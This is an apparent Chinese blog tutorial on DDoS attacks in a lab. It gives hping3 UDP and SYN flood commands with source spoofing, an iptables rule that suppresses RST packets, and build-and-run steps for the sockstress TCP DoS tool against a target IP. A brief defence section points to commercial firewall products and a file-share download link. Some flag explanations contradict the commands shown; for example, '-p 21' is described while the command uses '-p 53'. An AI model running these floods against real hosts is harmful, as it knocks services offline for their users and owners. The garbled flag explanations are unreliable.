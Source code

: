 # 原创
：  41-4 DDOS攻击防护实战

# 41-4 DDOS攻击防护实战

### 一、UDP FLOOD攻击

```
# hping3 -q -n -a &lt;攻击IP&gt; -S -s &lt;源端口&gt; --keep -p &lt;目的端口&gt; --flood &lt;被攻击IP&gt;
hping3 --udp -s 6666 -p 53 -a 192.168.1.6 --flood 192.168.1.13
```

这个命令是使用hping3工具进行UDP Flood攻击的命令。下面是各个选项的作用：

#### 演示：

hping3工具kali上有，所以要开启kali虚拟机作为攻击机，然后在开一台windows系统虚拟机作为被攻击机（windows系统查看cpu比较方便，没有windows系统虚拟机的开linux也可以）

##### 1）查看虚拟机ip

```
# windows
ipconfig

# linux
ifconfig

```

##### 2）然后确保两台虚拟机之间可以ping通

```
# windows
ping 目标ip


# linux（-c 4 意思是只发送4个测试包，不指定linux系统是会不断的发送）
ping -c 4 目标ip
```

##### 3）使用kail对windows系统发动 UDP FLOOD 攻击

注意：命令中的ip要改成自己的

```
# 192.168.1.45 是 windows 的ip，53 也是windows系统默认开放的端口
hping3 --udp -s 6666 -p 53 -a 192.168.1.3 --flood 192.168.1.45


# 或者
hping3 -c 100000 -d 65038 -S -w 64 -p 53 --flood --rand-source 192.168.1.45

-c 100000：表示发送100000个TCP SYN数据包，即向目标主机发送大量连接请求。
-d 65038：指定TCP数据包的数据负载为65038字节。这里使用了最大值，以增加攻击流量的大小。
-S：设置TCP SYN标志位，表示向目标主机发起连接请求。
-w 64：指定TCP窗口大小为64，即每发一个数据包之后要等待64个ACK确认信号再继续发送数据包。这样可以使攻击流量更加真实，模拟正常的TCP连接。
-p 21：指定目标端口号为21，即攻击目标的FTP服务端口号。
--flood：表示进行洪水攻击，即不断发送大量的攻击流量。
--rand-source：表示随机选择源IP地址，并且在每次发送数据包时都更换一次源IP地址。
192.168.1.45：指定目标IP地址为192.168.1.45，即攻击的目标。

```

 这里很奇怪，我攻击虚拟机没反应但是我攻击真实机就可以

如果你没安装抓包工具，也可以使用命令行查看

```
netstat -ano
```

该命令将显示系统上当前活动的网络连接和监听的端口号。列出的结果中，Local Address一列显示的是本地IP地址和端口号。 

 <img alt="" height="434" src="https://img-blog.csdnimg.cn/direct/d9efaa2db07c48c9ad2c3a2823fce670.png" width="637"/>

### 二、sockstress 攻击

sOCKSTRESS是一种DDoS攻击工具，它利用TCP连接中的漏洞来占用目标系统的资源，使其无法正常响应请求。以下是使用sOCKSTRESS进行攻击的步骤：

##### 1）下载sockstress脚本：[GitHub - defuse/sockstress: Sockstress (TCP DoS) implementation.](https://github.com/defuse/sockstress)

##### 2）设置防火墙规则，过滤发送给server的REST包，防止server断开连接。

```
# iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 被攻击主机IP -j DROP
iptables -A OUTPUT -p TCP --tcp-flags rst rst -d 192.168.1.45 -j DROP
```

kali攻击机中设置

##### 3）编译sockstress.c文件

```
# 进入到工具文件中
cd sockstress

gcc -Wall -c sockstress.c
gcc -pthread -o sockstress sockstress.o
```

##### 4）运行sockstress脚本，指定目标系统的IP地址和网络接口名称。

```
./sockstress 192.168.1.45:80 eth0
```

##### 5）可以选择使用-p选项指定负载类型，比如使用http负载。

```
./sockstress 192.168.1.45:80 eth0 -p payloads/http
```

### 防御

##### 1、冰盾：[冰盾DDoS防火墙 - 18年专注DDoS防护 防CC攻击 防SYN攻击 防流量攻击 拒绝服务 DDoS防护 冰盾 免费防火墙 (bingdun.com)](https://www.bingdun.com/)

 安装没啥好说的一路下一步就好，最后重启系统就能使用了，不过试用版全功能防护2小时，仅适用于32位的Win2003操作系统，因为我之前攻击Win2003虚拟机也没有成功所以这里没法做攻击演示他的防护，不过这种正版软件防护能力肯定是没问题的，不然他们也没法赚钱。

##### 2）安全狗（推荐，因为这个是免费的，当然企业版也是收费的）

网页安全狗下载：[网站安全狗-网站安全防护,防后门|防SQL注入|防CC攻击|网马查杀|防篡改 (safedog.cn)](https://www.safedog.cn/website_safedog.html)

服务器安全狗：链接：https://pan.baidu.com/s/1LsT0AwVP5DKO7-WJ3zHo0Q?pwd=jwx3 <br/> 提取码：jwx3

**安装** 

安装完成后他会自动对你的apache展开防护
